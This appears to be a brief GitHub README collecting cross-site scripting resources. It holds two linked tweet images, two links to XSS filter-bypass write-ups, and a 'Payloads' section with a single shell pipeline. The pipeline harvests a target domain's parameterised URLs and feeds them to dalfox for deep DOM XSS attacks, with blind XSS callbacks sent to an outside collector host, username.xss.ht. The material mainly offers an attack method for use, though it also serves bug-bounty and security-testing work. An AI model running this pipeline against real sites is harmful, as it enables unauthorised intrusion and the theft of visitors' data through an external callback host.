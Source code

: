 <h1 align="center">XSS --> Cross Site Scripting</h1>

<h3>1</h3>
<a href="https://twitter.com/404death/status/1464102960372224003"><img width="550" height="600px" align="center" src="https://user-images.githubusercontent.com/79082257/143777165-68df1dd0-a69a-4fcb-af8e-5fb7c96463f8.png"/></a>

<h3>2</h3>
<a href="https://twitter.com/0xElkomy/status/1467466221704847361"><img width="600" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/144747863-5c672808-727e-4ac2-a894-ce09966ea765.png"/></a>

Payloads
```
   echo Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | uro | dalfox pipe --deep-domxss --multicast --blind username.xss.ht
```


https://www.cyberick.com/post/xss-payload-filter-bypass-by-xploiterr
https://infosecwriteups.com/how-i-was-able-to-bypass-strong-xss-protection-in-well-known-website-imgur-com-8a247c527975
